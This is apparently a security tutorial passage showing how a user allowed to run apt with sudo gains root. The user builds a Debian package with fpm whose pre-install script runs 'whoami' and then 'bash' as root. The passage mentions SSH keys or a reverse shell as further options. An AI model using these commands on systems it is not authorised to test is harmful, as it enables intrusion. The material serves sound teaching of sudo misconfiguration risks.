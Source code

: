 In this tutorial we're taking the position of a low privileged user that only has permission to run one of the
above package managers as sudo.

## Exploitation: DEB

Here I have an ubuntu server, the user has the permission to run `apt` with sudo.

{{< image src="/img/package_manager_privesc/privesc-1.png" alt="" position="center" style="border-radius: 8px;" >}}

### Method 1: Creating a malicious debian package

The low privileged user can create a debian package that contains commands to escalate the privileges.

To start off we'll create a directory called `exploit` then create a shell script that runs `whoami` command and put in the folder.

```sh
mkdir exploit
echo '#!/bin/bash' > exploit/exploit.sh
echo whoami >> exploit/exploit.sh
```

{{< image src="/img/package_manager_privesc/privesc-2.png" alt="" position="center" style="border-radius: 8px;" >}}

With that ready we'll use a tool called fpm (Effing package management) to build a debian package that will execute
the script we have just created.

To create the debian package we'll run the below fpm command:

```sh
fpm -n exploit -s dir -t deb --before-install ./exploit/exploit.sh ./exploit
```

{{< image src="/img/package_manager_privesc/privesc-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Next we install the package via apt using the below command:

```sh
sudo apt install ./exploit_1.0_amd64.deb
```

{{< image src="/img/package_manager_privesc/privesc-4.png" alt="" position="center" style="border-radius: 8px;" >}}

There we see the command gets executed as root, now we can run any command as root. From there you can use different
strategies to get a root shell like adding ssh keys to the root user or getting a reverse shell.

For our case here, we'll just change the `whoami` command to `bash` in the exploit.sh script then create a new
debian package. But this time specify a new version to upgrade the existing one that we installed.

```sh
fpm -n exploit -s dir -t deb -v 1.1 --before-install ./exploit/exploit.sh ./exploit
```
